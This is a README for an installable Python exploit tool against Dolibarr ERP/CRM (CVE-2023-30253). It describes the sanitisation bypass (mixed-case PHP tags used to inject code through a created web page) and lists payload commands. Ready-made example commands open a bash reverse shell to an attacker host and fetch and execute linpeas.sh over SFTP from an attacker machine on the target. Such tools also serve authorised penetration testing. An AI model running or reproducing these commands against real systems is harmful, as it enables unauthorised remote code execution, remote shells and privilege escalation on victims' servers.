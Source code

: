 # DolibabyPhp

An authenticated RCE exploit for Dolibarr ERP/CRM CVE-2023-30253.

## Installation

You can either install the package from the PyPi repository with `pip` or `git clone` the source directly from GitHub.

```shell
pip install dolibabyphp
```

## Usage

```txt
Usage: python -m dolibabyphp [OPTIONS] TARGET_URL USERNAME PASSWORD COMMAND
                             [ARGS]...

  This exploit will log into the Dolibarr web server at the specified target URL
  with the provided username and password. After that it will attempt to create
  a web page with a unique name. Once created, it will modify the web page to
  include the custom PHP code bypassing the sanitation check by not using only
  lowercase letters (e.g. PHP or pHp instead of php). There are multiple
  payloads to choose from After the payload has finished running, the web page
  will be deleted.

Options:
  --site-name TEXT       Specify a name to use when creating a site on the
                         target. Defaults to UUIDv4.
  --page-name TEXT       Specify a name to use when creating a page on the
                         target. Defaults to UUIDv4.
  --page-title TEXT      Specify a title for the page. Defaults to the page
                         name.
  --proxy TEXT           Specify a proxy URL for use in all requests.
  -o, --output FILENAME  Specify a file path to output the results of the
                         payload to. Defaults to stdout.
  --help                 Show this message and exit.

Commands:
  bash-reverse-shell     Spawns a bash shell on the victim machine and...
  cleanup                Runs the cleanup script on the target for given site...
  custom-php-payload     Specify your own PHP payload to be run on the victim...
  custom-system-payload  Specify your own payload to be run via PHP system()...
  sftp                   SFTPs to the attacker machine, downloads the...
  wget                   Downloads the file at the specified URL to to the...
```

### Examples

```shell
# Reverse shell with Bash
python -m dolibabyphp http://example.com/ username1 pass_word23 bash-reverse-shell --lhost 1.2.3.4 --lport 4444

# Testing with a proxy
python -m dolibabyphp --proxy http://127.0.0.1:8080 http://example.com/ username1 pass_word23 custom-system-payload --payload "uname -a"

# SFTP linpeas to the target, execute it, and save the output to a file on the attacker machine.
python -m dolibabyphp -o ./linpeas-output.txt http://example.com/ username1 pass_word23 sftp --private-key-file ./id_ed25519 sftp://me@1.2.3.4:2222/linpeas.sh ./style.css
```

## Running from source

In order to run the project from the source code, you can either use `rye` or make sure you add the `src/` directory to the `PYTHONPATH` and then import the module `dolibabyphp` with the `-m` flag.

```shell
# With rye
rye run dolibabyphp

# Without rye
PYTHONPATH="$(pwd)/src/" python -m dolibabyphp
```
